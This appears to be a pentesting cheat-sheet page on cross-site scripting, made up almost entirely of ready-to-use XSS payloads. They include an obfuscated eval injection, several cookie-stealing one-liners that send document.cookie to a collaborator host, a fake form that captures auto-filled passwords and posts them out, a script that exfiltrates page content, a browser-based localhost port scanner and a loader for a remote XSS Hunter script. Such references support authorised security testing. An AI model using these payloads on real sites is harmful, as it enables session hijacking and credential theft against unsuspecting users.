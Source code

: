 ```yaml
---
title: XSS
description: Cross-site scripting (XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application.
badge: Web
---
```



## Examples

### Injections

```html
"><input onfocus=eval(atob(this.id)) id={{ xss-payload alert(1) } b64 } autofocus>
```

### Exploitation

#### Steal cookies

```js
fetch('https://{{ collaborator your.burpcollaborator.net }}', {method: 'POST', mode: 'no-cors', body:document.cookie})
```

```js
var xhttp = new XMLHttpRequest(); xhttp.open("GET", "http://{{ collaborator your.burpcollaborator.net }}/?c=" + document.cookie, true);xhttp.send();
```

```js
navigator.sendBeacon('https://{{ collaborator your.burpcollaborator.net }}/',document.cookie)
```

```html
<img src=x onerror="this.src='http://{{ collaborator your.burpcollaborator.net }}/?c='+document.cookie">
```

#### Capture password auto-fill

```html
<b>Username:</b><br>
<input name=username id=username>
<b>Password:</b><br>
<input type=password name=password onchange="if(this.value.length)fetch'https://{{ collaborator your.burpcollaborator.net }}',{method:'POST', mode: 'no-cors', body:username.value+':'+this.value});">
```

#### Steal Page Content

```js
var url = "{{ target-url http://10.10.10.25:8000/vac/a1fbf2d1-7c3f-48d2-b0c3-a205e54e09e8 }}";
var attacker = "https://{{ collaborator your.burpcollaborator.net }}";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

#### Port Scanning

```js
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = https://{{ collaborator your.burpcollaborator.net }}/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```

## Blind XSS

### XSS Hunter

#### Custom XSS Hunter payloads

```js
var a=document.createElement("script");a.src="https://{{ xss-hunter-username your-username }}.xss.ht";document.body.appendChild(a);
```

## Bypass WAF

![Mutation points in a tag for WAF bypass](/web_client_xss_a_mutation_points.jpg)

## Angularjs
